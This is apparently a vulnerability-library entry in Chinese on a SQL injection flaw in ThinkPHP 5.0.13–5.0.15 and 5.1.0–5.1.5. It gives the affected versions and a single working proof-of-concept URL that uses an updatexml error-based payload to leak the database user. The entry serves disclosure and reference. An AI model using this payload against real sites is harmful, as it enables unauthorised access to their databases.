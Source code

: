 ```yaml
---
title: 'Thinkphp 5.0.(13-15)&5.1.(0-5) sql注入漏洞'
date: Sat, 03 Oct 2020 16:23:53 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.0.13<=ThinkPHP<=5.0.15 5.1.0<=ThinkPHP<=5.1.5

### 漏洞POC

没开启debug看不到报错信息```
http://*********/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 

